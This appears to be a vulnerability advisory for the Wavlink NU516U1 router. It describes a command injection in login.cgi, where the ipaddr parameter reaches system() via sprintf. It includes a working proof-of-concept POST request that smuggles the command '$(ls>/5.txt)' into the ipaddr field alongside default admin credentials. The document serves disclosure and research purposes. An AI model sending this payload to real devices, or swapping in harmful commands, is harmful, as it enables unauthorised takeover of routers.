



# Wavlink NU516 login
### Overview
vendor: Wavlink

product: NU516U1

version: M16U1_V240425

type: Command Injection
### Vulnerability Description
Wavlink NU516U1 M16U1_V240425 were discovered to contain a command injection via the ipaddr parameter in the sub_401270 function of the file login.cgi.
### Vulnerability details
In the ftext function, obtain the value of the page parameter via user input.


Setting the value of the page parameter to login will call the sub_401270 function.



In the sub_401270 function, the value of the ipaddr parameter is obtained via a post request. Then, the value of the ipaddr parameter is passed to the v39 variable via the sprintf function, which in turn is passed to the system function.





### POC
```
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 272
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

newUI=1&page=login&username=admin&langChange=0&ipaddr=$(ls>/5.txt)&login_page=login.shtml&homepage=main.shtml&sysinitpage=sysinit.shtml&wizardpage=wizard.shtml&hostname=192.168.0.1&key=M61623319&lang_select=en&password=admin&password_vlaue=377dca4849d48c55faa4f3218cd6885d
```
